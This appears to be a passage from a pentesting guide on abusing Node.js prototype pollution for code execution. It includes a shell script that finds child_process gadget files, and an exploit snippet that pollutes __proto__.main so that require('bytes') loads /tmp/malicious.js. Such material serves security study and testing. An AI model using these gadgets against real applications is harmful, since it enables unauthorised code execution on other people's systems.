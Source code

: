 * /path/to/npm/scripts/changelog.js
* /opt/yarn-v1.22.19/preinstall.js
* Find **more files below**

The following simple script will search for **calls** from **child\_process** **without any padding** (to avoid showing calls inside functions):

{% code overflow="wrap" %}
```bash
find / -name "*.js" -type f -exec grep -l "child_process" {} \; 2>/dev/null | while read file_path; do
    grep --with-filename -nE "^[a-zA-Z].*(exec\(|execFile\(|fork\(|spawn\(|execFileSync\(|execSync\(|spawnSync\()" "$file_path" | grep -v "require(" | grep -v "function " | grep -v "util.deprecate" | sed -E 's/.{255,}.*//'
done
# Note that this way of finding child_process executions just importing might not find valid scripts as functions called in the root containing child_process calls won't be found.
```
{% endcode %}

<details><summary>Interesting files found by previous script</summary></details>

### Setting require file path via prototype pollution

{% hint style="warning" %}
The **previous technique requires** that the **user controls the path of the file** that is going to be **required**. But this is not always true.
{% endhint %}

However, if the code is going to execute a require after the prototype pollution, even if you **don't control the path** that is going to be require, you **can force a different one abusing propotype pollution**. So even if the code line is like `require("./a_file.js")` or `require("bytes")` it will **require the package you polluted**.

Therefore, if a require is executed after your prototype pollution and no spawn function, this is the attack:

* Find a **`.js` file inside the system** that when **required** will **execute something using `child_process`**
  * If you can upload files to the platform you are attacking you might upload a file like that
* Pollute the paths to **force the require load of the `.js` file** that will execute something with child\_process
* **Pollute the environ/cmdline** to execute arbitrary code when a child\_process execution function is called (see the initial techniques)

#### Absolute require

If the performed require is **absolute** (`require("bytes")`) and the **package doesn't contain main** in the `package.json` file, you can **pollute the `main` attribute** and make the **require execute a different file**.

{% tabs %}
{% tab title="exploit" %}
{% code overflow="wrap" %}
```javascript
// Create a file called malicious.js in /tmp
// Contents of malicious.js in the other tab

// Install package bytes (it doesn't have a main in package.json)
// npm install bytes

// Manual Pollution
b = {}
b.__proto__.main = "/tmp/malicious.js"

// Trigger gadget
var proc = require('bytes');
// This should execute the file /tmp/malicious.js
```